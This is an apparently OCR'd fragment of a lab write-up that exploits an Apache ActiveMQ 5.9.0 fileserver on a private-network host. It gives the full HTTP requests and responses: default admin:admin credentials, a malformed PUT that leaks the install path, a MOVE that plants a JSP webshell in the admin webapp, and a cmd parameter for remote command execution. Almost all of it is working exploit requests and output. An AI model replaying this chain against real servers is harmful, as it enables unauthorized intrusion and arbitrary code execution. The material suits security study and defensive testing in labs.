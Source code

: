 ```
PUT /fileserver/%80/%80 HTTP/1.1
Host: 10.10.5.130:8161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
cookie: JSESSIONID=1sd10clrjxccpnpfw7y3nmhk9
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Length: 8

test
```
```
HTTP/1.1 500 /opt/apache-activemq-5.9.0/webapps/fileserver// (No such file or directory)
Connection: close
Server: Jetty(7.6.9.v20130131)
```
We can then use this absolute path to move our file to the admin section where it will have execute permission
```
MOVE /fileserver/test.jsp HTTP/1.1
Destination: file:///opt/apache-activemq-5.9.0/webapps/admin/test.jsp
Host: 10.10.5.130:8161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
cookie: JSESSIONID=1sd10clrjxccpnpfw7y3nmhk9
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Length: 0
```
A get request will confirm we have successfully moved the webshell
```
GET /admin/test.jsp HTTP/1.1
Host: 10.10.5.130:8161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
cookie: JSESSIONID=1sd10clrjxccpnpfw7y3nmhk9
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=GBK
Connection: close
Server: Jetty(7.6.9.v20130131)

...
```
We can now add the cmd parameter and have RCE
```
GET /admin/test.jsp?cmd=ls+-la HTTP/1.1
```